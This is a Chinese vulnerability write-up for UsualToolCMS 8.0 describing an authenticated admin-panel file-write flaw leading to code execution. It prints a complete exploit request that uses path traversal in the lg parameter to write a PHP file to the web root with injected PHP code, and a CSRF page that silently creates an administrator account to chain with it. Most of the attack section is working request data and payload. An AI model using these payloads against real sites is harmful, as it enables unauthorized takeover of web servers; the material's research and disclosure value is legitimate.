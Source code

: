 UsualToolcms 8.0 后台GETSHELL
=============================

一、漏洞简介
------------

二、漏洞影响
------------

UsualToolCMS-8.0-Release

三、复现过程
------------

洞点:<http://0-sec.org/cmsadmin/a_lang.php>

13行未对\$lg做判断

![](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0后台GETSHELL/media/rId25.png)

![](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0后台GETSHELL/media/rId26.png)

![](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0后台GETSHELL/media/rId27.png)

点击保存时抓包需要修改url处的lg参数这样就上传到跟目录了，再在post
参数的en后面加入

    en"},<?php phpinfo(); ?>

![](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0后台GETSHELL/media/rId28.png)

![](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0后台GETSHELL/media/rId29.png)

![](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0后台GETSHELL/media/rId30.png)

    POST /UsualToolCMS/cmsadmin/a_langx.php?x=m&lg=../1.php HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
    Accept: text/html,application/xhtml xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    Referer: http://192.168.235.242/UsualToolCMS/cmsadmin/a_langx.php?lg=lg-en.json
    Cookie: navleft=21; UTCMSLanguage=zh; PHPSESSID=1r5kk3jieflfbnseav3e5dnclo
    X-Forwarded-For: 8.8.8.8
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 9189

    submit=保存语言包&keys[]=language&values[]=en"},<?php phpinfo(); ?>&keys[]=charset&values[]=utf-8&keys[]=speak&values[]=English&keys[]=web&values[]=UsualToolCMS&key[]=index&value[]=Home&key[]=article&value[]=Article&key[]=product&value[]=Product&key[]=picture&value[]=Picture&key[]=atlas&value[]=Atlas&key[]=contact&value[]=Contact&key[]=about&value[]=About&key[]=forum&value[]=Forum&key[]=register&value[]=Register&key[]=login&value[]=Login&key[]=news&value[]=News&key[]=job&value[]=Job&key[]=wages&value[]=Wages&key[]=application&value[]=Application&key[]=resume&value[]=Resume&key[]=shopcart&value[]=Shopcart&key[]=account&value[]=Account&key[]=member&value[]=Member&key[]=up&value[]=Up&key[]=down&value[]=Down&key[]=more&value[]=More&key[]=new&value[]=New&key[]=authorize&value[]=Authorize&key[]=authenticating&value[]=Authenticating&key[]=qq&value[]=QQ&key[]=membercenter&value[]=Member&key[]=username&value[]=Username&key[]=password&value[]=Password&key[]=forgotpass&value[]=Forgot&key[]=search&value[]=Search&key[]=detail&value[]=Detail&key[]=size&value[]=Size&key[]=spec&value[]=Spec&key[]=color&value[]=Color&key[]=aboutus&value[]=About Us&key[]=newgoods&value[]=New Product&key[]=topgoods&value[]=Top Product&key[]=link&value[]=Link&key[]=confirm&value[]=Confirm&key[]=email&value[]=Email&key[]=title&value[]=Title&key[]=content&value[]=Content&key[]=avatar&value[]=Avatar&key[]=sex&value[]=Sex&key[]=man&value[]=Man&key[]=woman&value[]=Woman&key[]=address&value[]=ADD.&key[]=tel&value[]=Tel&key[]=fax&value[]=Fax&key[]=introduction&value[]=Intro&key[]=validatecode&value[]=Captcha&key[]=changeit&value[]=Change it&key[]=order&value[]=Order&key[]=writeorder&value[]=Write Order&key[]=menu&value[]=Menu&key[]=balance&value[]=Balance&key[]=level&value[]=Level&key[]=writearticles&value[]=Write Articles&key[]=articlemanagement&value[]=Article Admin&key[]=articlebrowse&value[]=Article Browse&key[]=writeonline&value[]=Add New&key[]=payment&value[]=Payment&key[]=registrationtime&value[]=Reg Time&key[]=lastlogintime&value[]=Last Login&key[]=fullname&value[]=Full Name&key[]=privileges:discount&value[]=Privileges:Discount&key[]=state&value[]=State&key[]=source&value[]=Source&key[]=ordernumber&value[]=Order No.&key[]=money&value[]=Money&key[]=time&value[]=Time&key[]=finish&value[]=Finish&key[]=unpaid&value[]=Unpaid&key[]=deliver&value[]=Deliver&key[]=refund&value[]=Refund&key[]=goods&value[]=Goods&key[]=charge&value[]=Charge&key[]=other&value[]=Other&key[]=ordertime&value[]=Order Time&key[]=voucher&value[]=Voucher&key[]=customer&value[]=Customer&key[]=zipcode&value[]=Zip Code&key[]=logistics&value[]=Logistics&key[]=logisticscompany&value[]=Company&key[]=logisticsnumber&value[]=Number&key[]=logisticsdetails&value[]=Details&key[]=paymentmethod&value[]=Method&key[]=alipay&value[]=Alipay&key[]=wechatpay&value[]=Tencent Wechat&key[]=paypal&value[]=Paypal&key[]=waitinganswer&value[]=Waiting&key[]=answered&value[]=Answered&key[]=question&value[]=Question&key[]=reply&value[]=Reply&key[]=tencentaccount&value[]=Tencent&key[]=weiboaccount&value[]=Weibo&key[]=wechataccount&value[]=Wechat&key[]=binded&value[]=Binded&key[]=untie&value[]=Untie&key[]=quantity&value[]=Qty&key[]=parameter&value[]=Parm&key[]=total&value[]=Total&key[]=submit&value[]=Submit&key[]=delete&value[]=Del&key[]=unit&value[]=USD&key[]=actual&value[]=Actual&key[]=feedback&value[]=Feedback&key[]=otheraccount&value[]=Other Accounts&key[]=out&value[]=Out&key[]=ranking&value[]=Ranking&key[]=recommend&value[]=Recommend&key[]=tag&value[]=Tag&key[]=tags&value[]=Tags&key[]=read&value[]=Read&key[]=productdetails&value[]=Product Details&key[]=service&value[]=Service&key[]=category&value[]=Category&key[]=allcategory&value[]=All Category&key[]=stock&value[]=Stock&key[]=price&value[]=Price&key[]=sale&value[]=Sale&key[]=loginview&value[]=Login View&key[]=readme&value[]=Read Me&key[]=popularity&value[]=Popularity&key[]=details&value[]=Details&key[]=message&value[]=Message&key[]=original&value[]=Original&key[]=author&value[]=Author&key[]=pass&value[]=Pass&key[]=audit&value[]=Audit&key[]=return&value[]=Return&key[]=yes&value[]=Yes&key[]=no&value[]=No&key[]=modify&value[]=Modify&key[]=articlemodify&value[]=Article Modify&key[]=type&value[]=Type&key[]=moreupload&value[]=Up to upload&key[]=success&value[]=Success&key[]=fail&value[]=Fail&key[]=upload&value[]=Upload&key[]=uploadtime&value[]=Upload Time&key[]=contactus&value[]=Contact Us&key[]=previouspage&value[]=Prev&key[]=nextpage&value[]=Next&key[]=firstpage&value[]=First&key[]=lastpage&value[]=Last&key[]=totalpage&value[]=Total&key[]=currentpage&value[]=Current&key[]=buy&value[]=Buy&key[]=mailverify&value[]=Email validation&key[]=welcome&value[]=Welcome&key[]=close&value[]=closed&key[]=findpassword&value[]=Find Password&key[]=contactmanager&value[]=Contact Manager&key[]=orderdetaillogin&value[]=For order details,please visit the website.&key[]=enterusername&value[]=Please enter username!&key[]=enterpassword&value[]=Please enter password!&key[]=enteremail&value[]=Please enter Email!&key[]=emailerr&value[]=Email error!&key[]=entertitle&value[]=Please enter title!&key[]=entercontent&value[]=Please enter content!&key[]=selecttype&value[]=Type must be selected!&key[]=enterauthor&value[]=Please enter author!&key[]=enterpasswords&value[]=Please confirm the password!&key[]=passworderr&value[]=The codes don&key[]=entercaptcha&value[]=Please enter captcha!&key[]=captchaerr&value[]=Captcha error!&key[]=mailsenderr&value[]=Mail not sent!&key[]=mailok&value[]=Please check email!&key[]=pleasemailverify&value[]=Please check email for verification!&key[]=mailverifycode&value[]=Email Authentication Code&key[]=mailcopylink&value[]=Please copy the following link&key[]=totalnum&value[]=Total Num&key[]=updateok&value[]=Update successed!&key[]=updateno&value[]=Failed to update!&key[]=payok&value[]=Successful payment!&key[]=payno&value[]=Payment Failed!&key[]=createempty&value[]=Required field is empty!&key[]=createok&value[]=Create successed!&key[]=createno&value[]=Failed to create!&key[]=gotopay&value[]=Go to pay!&key[]=untieok&value[]=Untie successed!&key[]=untieno&value[]=Untie failed!&key[]=delok&value[]=Delete successed!&key[]=delno&value[]=Delete failed!&key[]=regclose&value[]=Website registration closed!&key[]=regmailerr&value[]=Account or email registered!&key[]=loginusererr&value[]=Account does not exist!&key[]=loginpasserr&value[]=Account or password does not match!&key[]=administratorreply&value[]=The administrator has not responded, please wait patiently.&key[]=noscript&value[]=Sorry, your browser disabled JavaScript, it may not be able to use some of the site&key[]=readmecontent&value[]=We guarantee that the outer packing of the goods is in good condition at the time of shipment. When you receive the goods, please carefully check whether the invoice and the goods are consistent with the delivery order. If you find that the goods are missing or damaged, please contact our customer service department on the spot when the delivery personnel are still on the scene; If you find that the package is damaged or the goods are damaged in transit, please point out and refuse to accept it on the spot. After refusal, please call our customer service. If you have signed for it or someone else has signed for it, you will be considered as the packaging, quantity and content of the goods. I will not be able to accept.&key[]=copyright&value[]=Copyright&key[]=cssdisplay&value[]=none&key[]=test&value[]=Test
    请将上面post数据包内容进行url编码

### csrf配合上面的后台getshell

    <html>
      <body>
      <script>history.pushState('', '', '/')</script>
      <form action="http://0-sec.org/cmsadmin/a_adminx.php?x=a" method="POST">
          <input type="hidden" name="username" value="safetest" />
          <input type="hidden" name="roleid" value="1" />
          <input type="hidden" name="password" value="123456" />
          <input type="hidden" name="password&#95;confirm" value="123456" />
          <input type="hidden" name="submit" value="æ&#143;&#144;äº&#164;" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>

![](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0后台GETSHELL/media/rId32.shtml)
